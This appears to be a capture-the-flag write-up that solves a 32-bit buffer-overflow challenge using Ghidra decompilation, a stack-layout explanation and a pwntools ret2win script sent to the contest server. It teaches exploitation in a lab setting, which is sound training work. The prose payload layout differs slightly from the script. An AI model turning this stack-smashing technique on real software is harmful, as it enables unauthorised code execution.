


# return_for_adventure

## Challenge description

> This choose your own adventure is pretty lame, can you find a way to change it?

## Solution

As always, it's always good to run `file` on any binaries (or files) you're provided :)

```shell
$ file ./return_for_adventure
./return_for_adventure: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=59f37aeb582339a0d107aefdf63a6ed06a164c6d, not stripped
```

So it's a 32-bit executable, interesting. It's not stripped, which means that debug symbols (i.e. function names) are preserved, which is nice for analyzing the binary in something like Ghidra :)

After opening it up in Ghidra, one of the functions stood out to me right off the bat:

```c
void huh_whats_this_function_for(int param_1,int param_2)

{
  char local_33 [35];
  FILE *local_10;

  if ((param_1 == -0x74520ff3) && (param_2 == -0x54524542)) {
    printf("Here is the correct flag: ");
    local_10 = fopen("flag.txt","r");
    fgets(local_33,0x22,local_10);
    fclose(local_10);
    puts(local_33);
  }
  return;
}
```

So clearly we need to find a way to run this function. Unfortunately for us, though, it's not called from any of the other functions in this executable. We're gonna have to be a bit more clever in finding a way to get the flag.

Of the functions that are actually called from the `main()` function, `breakfast` looks most interesting:

```c
void breakfast(void)

{
  char local_24 [20];
  int local_10;

  puts("What breakfast do you want to eat?");
  do {
    local_10 = getchar();
    if (local_10 == 10) break;
  } while (local_10 != -1);
  fgets(local_24,200,stdin);
  puts("I guess if thats what u want...");
  return;
}
```

The `fgets` call gets up to 200 characters from stdin and puts them into `local_24`, which is allocated with a length of 20 characters. In case it's not obvious, this would normally be really bad, but it's good for us in this case since we can then overwrite more data than we should be able to :)

### Function calling conventions

When a function is called, a bit of setup is done on the stack via various assembly instructions:

- Any function parameters are pushed onto the stack in reverse order
- The `CALL` instruction pushes a return address onto the stack, so the calling function can continue from where it left off
- The previous function's base pointer (located in the EBP register) gets pushed onto the stack
- Any local variables are allocated on the stack (again in reverse order)

After all of that, the stack looks something like this, where ESP represents the stack pointer:

```text
+----------------+
| ...            |    |
| param_2        |    |
| param_1        |    |
| return_address |    |
| previous_ebp   |    |
| local_2        |    |
| local_1 <- ESP |    v decreasing addresses
+----------------+
```

We can take advantage of this fact in the `breakfast` function by overwriting the return address with that of the `huh_whats_this_function_for` function. Because it takes parameters, though, we have to also put those onto the stack in order for the code inside the if statement to execute.

In case you didn't know, the numbers after `local_` in Ghidra normally signify stack offsets, which is made more obvious in the function header section:

<div align="center">

</div>

As we can see above, `local_24` (the buffer that user input gets written to) is offset by -0x24 bytes from the stack, which when converted to decimal is 36 bytes. That means that we have to provide 36 characters until we start overwriting (among other things) the return address. We also have to overwrite the previous base pointer address, but the specific value doesn't really matter. Finally, for the parameters passed to the `huh_whats_this_function_for` function, Ghidra shows them properly in the disassembly view:

<div align="center">

</div>

So the first paramater has to have the hex value `0x8badf00d` and the second parameter `0xabadbabe`.
Assembling all of that together means our payload should look something like this:

```text
<36 characters><ebp placeholder><flag function address><0x8badfood><0xabadbabe>
```

I used pwntools to craft the payload and send it to the binary. [My full solve script](./pwn_adventure.py) is in this folder, but I'll include it in here as well:

```py
from pwn import *

if __name__ == "__main__":
    # Find the address of the flag-printing function
    game_elf = ELF("./provided/return_for_adventure")
    flag_addr = game_elf.symbols["huh_whats_this_function_for"]
    print(f"flag function addr: {flag_addr:#x}")

    # p = process("./provided/return_for_adventure")
    p = remote("chal.ctf-league.osusec.org", 7159)

    # Send proper input to reach breakfast function
    p.sendline(b"1")
    p.sendline(b"2")

    # payload: 36 characters + flag func address + junk + param_1 + param_2
    p.sendline(b"A"*36 + p32(flag_addr) + p32(0xdeadbeef) + p32(0x8badf00d) + p32(0xabadbabe))
    p.interactive()
```

I used pwntools' `ELF` class to fetch the symbols table of the `return_for_adventure` executable, which allows me to get the address of the `huh_whats_this_function_for` function. The `p32` function encodes the integers/addresses into the proper representation (i.e. little endian) to be understood by the binary.
After running this script, we get the flag:

```shell
$ python pwn_adventure.py
flag function addr: 0x8048646
# --snip--
Here is the correct flag: osu{d0n'7_b3_57up1d_4nd_0v3rfl0w}
```

And there's our flag! This is why you should always be careful when getting user input, especially if you read more data than a buffer can hold :)
